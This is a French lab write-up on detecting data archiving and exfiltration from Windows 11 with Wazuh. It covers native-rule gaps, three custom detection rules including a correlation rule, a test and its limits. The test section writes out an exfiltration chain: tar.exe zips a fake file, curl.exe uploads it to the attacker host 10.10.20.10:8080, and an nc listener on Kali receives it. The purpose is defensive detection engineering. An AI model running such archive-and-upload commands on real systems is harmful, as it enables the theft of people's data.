

# Writeup 22 : archiver puis exfiltrer, et une première corrélation (T1560.001, T1048.003)

> Scénario 11, joué le 2026-10-29. Sur Windows 11, un faux document est zippé avec `tar.exe`
> puis envoyé en HTTP vers Kali avec `curl.exe`, deux outils **livrés avec Windows**. La native
> qui vise l'archivage ne voit pas ce cas. Trois règles locales : **100280** (archive, niveau 8),
> **100281** (envoi, niveau 10) et la **corrélation 100282** (les deux sur le même poste en
> 5 minutes, niveau 14). Tactiques **Collection** et **Exfiltration** couvertes.
>
> Versions : Wazuh 4.14.9, Windows 11 en français (agent SIEM-Win11), Sysmon v15.22, Kali
> `10.10.20.10`.

## 1. Comprendre

Avant de partir, l'attaquant **rassemble** ce qui l'intéresse et le **compresse** (moins de
volume, un seul fichier), puis le **sort** du réseau. Utiliser les binaires déjà présents
(*living off the land*) évite de déposer un outil qu'un antivirus reconnaîtrait.

| Étape | MITRE ATT&CK | Ici |
|---|---|---|
| Archive via un utilitaire | **T1560.001** *Archive Collected Data: Archive via Utility* (Collection, TA0009) | `tar.exe -a -c -f loot.zip …` |
| Exfiltration sur un protocole non C2, non chiffré | **T1048.003** *Exfiltration Over Unencrypted Non-C2 Protocol* (Exfiltration, TA0010) | `curl.exe -F f=@loot.zip http://10.10.20.10:8080/` |

Sources : https://attack.mitre.org/techniques/T1560/001/, https://attack.mitre.org/techniques/T1048/003/

`tar.exe` et `curl.exe` sont livrés dans `C:\Windows\System32` depuis Windows 10 1803 (supposé,
d'après la documentation Microsoft ; vérifié présents sur la VM).

## 2. Ce que Wazuh fournit déjà

Recherche dans le ruleset (2026-10-29) :

| Règle / fichier | Ce qu'elle voit | Pourquoi elle ne suffit pas ici |
|---|---|---|
| **92067** (niveau 6, T1560.001), `0800-sysmon_id_1.xml` | ligne de commande avec `.zip`/`.7z`/`.rar` | fille de **92066** : parent PowerShell **et** binaire dans `Windows\SysWOW64` ou `Windows\Temp`. `tar.exe` est dans `System32` : hors champ |
| `0830-sysmon_id_11.xml` | archive créée dans `C:\Users\Public` | repose sur Sysmon EID 11 (création de fichier), non collecté par la config du lab (supposé, d'après le [writeup 04](04-agent-windows-sysmon.md)) |
| `0915-win-powershell_rules.xml` | `Compress-Archive` | repose sur le journal 4104 (Script Block Logging), non activé |
| `curl.exe` en envoi | **aucune** règle | — |

Une native peut exister **et** être muette : la condition qui compte est souvent celle qu'on
ne voit pas dans une recherche d'une ligne (même leçon qu'au [writeup 20](20-scenario-powershell-encode.md)).

## 3. Les règles locales

```xml
<rule id="100280" level="8">
  <if_sid>61603</if_sid>
  <field name="win.eventdata.image" type="pcre2">(?i)\\(tar|7z|7za|7zr|rar|winrar|makecab)\.exe$</field>
  <field name="win.eventdata.commandLine" type="pcre2">(?i)\.(zip|7z|rar|cab|tar|tgz)\b</field>
  <description>Collection : archive créée par $(win.eventdata.image) sur $(win.system.computer)</description>
  <mitre><id>T1560.001</id></mitre>
</rule>

<rule id="100281" level="10">
  <if_sid>61603</if_sid>
  <field name="win.eventdata.image" type="pcre2">(?i)\\curl\.exe$</field>
  <field name="win.eventdata.commandLine" type="pcre2">(?i)(\s(-F|--form|-T|--upload-file)\s|--data-binary\s+@|\s-d\s+@)</field>
  <description>Exfiltration possible : curl.exe envoie un fichier depuis $(win.system.computer)</description>
  <mitre><id>T1048.003</id></mitre>
</rule>

<rule id="100282" level="14" frequency="2" timeframe="300">
  <if_matched_group>exfil_chain</if_matched_group>
  <same_field>win.system.computer</same_field>
  <description>Chaîne d'exfiltration : archive puis envoi depuis $(win.system.computer) en moins de 5 min</description>
  <mitre><id>T1560.001</id><id>T1048.003</id></mitre>
</rule>
```

- **Niveaux gradués.** Zipper un dossier est banal (8) ; `curl` qui envoie un fichier l'est
  beaucoup moins sur un poste utilisateur (10) ; les deux enchaînés, c'est le scénario
  d'exfiltration (14).
- **Étroites** : outil précis **et** argument précis, pour ne pas masquer d'autres natives sous
  61603.
- **Corrélation** : 100280 et 100281 sont dans le groupe `exfil_chain`. La 100282 se déclenche
  quand **2** événements de ce groupe arrivent sur le **même poste** (`same_field`) en
  **300 s** (`frequency`, `timeframe`).

## 4. Le test

**Kali** (le serveur de l'attaquant), un écouteur qui écrit tout ce qu'il reçoit :

```bash
nc -lvnp 8080 > /tmp/recu-exfil.bin
```

**Win11**, PowerShell utilisateur :

```powershell
New-Item -ItemType Directory -Force C:\Users\Public\docs-lab | Out-Null
Set-Content C:\Users\Public\docs-lab\salaires.txt "FAUX DOCUMENT DE TEST - scenario 11"
tar.exe -a -c -f C:\Users\Public\loot.zip -C C:\Users\Public docs-lab
curl.exe -s --max-time 5 -F "f=@C:\Users\Public\loot.zip" http://10.10.20.10:8080/
```

Côté Kali : `connect to [10.10.20.10] from (UNKNOWN) [10.10.10.101] 53764`, fichier reçu de
**804 octets** commençant par `POST / HTTP/1.1`, `User-Agent: curl/8.21.0`,
`Content-Disposition: form-data; name="f"; filename="loot.zip"`. **Les données sont sorties** :
le pare-feu laisse passer le LAN vers le segment d'attaque en HTTP.

## 5. Résultat



| Heure (UTC) | Règle | Niveau | Événement porté |
|---|---|---|---|
| 15:13:11.838 | **100280** | 8 | `tar.exe -a -c -f C:\Users\Public\loot.zip -C C:\Users\Public docs-lab` |
| 15:13:11.887 | **100282** | **14** | `curl.exe -s --max-time 5 -F f=@C:\Users\Public\loot.zip http://10.10.20.10:8080/` |

La 100281 n'apparaît pas seule : la corrélation se déclenche **sur** le 2e événement (le `curl`)
et **prend la place** de son alerte. Vérifié en lisant `image` et `commandLine` de l'alerte
100282 : c'est bien le `curl`, pas un second `tar`. 49 ms entre les deux.

## 6. Limites

- **La corrélation compte, elle n'ordonne pas.** `frequency="2"` sur le groupe signifie « deux
  événements du groupe », pas « une archive **puis** un envoi ». Deux archives successives, ou
  deux envois, la déclencheraient aussi (déduit de la syntaxe, non testé). Une version stricte
  demanderait de chaîner les règles différemment ; à étudier.
- **100281 seule non observée.** Un `curl` d'envoi sans archive préalable doit sortir en 100281
  (niveau 10) ; non joué ici.
- **Autres canaux.** `Invoke-WebRequest` (PowerShell, sans `curl.exe`), `bitsadmin`, un partage
  SMB, un service cloud en HTTPS : non couverts. Côté réseau, Suricata ou le pare-feu pourraient
  voir un gros transfert sortant ; aucune règle de volume n'existe dans le lab.
- **Le pare-feu laisse sortir.** Le flux Win11 → Kali:8080 est autorisé : le SIEM **détecte**,
  il ne **bloque** pas. Une réponse active (blocage de l'IP destination) ou une règle pfSense
  plus stricte du LAN vers l'extérieur fermerait ce chemin.

## 7. Lien SOC

Une 100282 est un incident, pas une alerte isolée : identifier ce qui a été archivé (chemin de
l'archive, dossier source), la destination (`http://10.10.20.10:8080/`), puis chercher la même
IP dans les journaux pfSense pour mesurer le volume sorti et d'autres postes contactés.
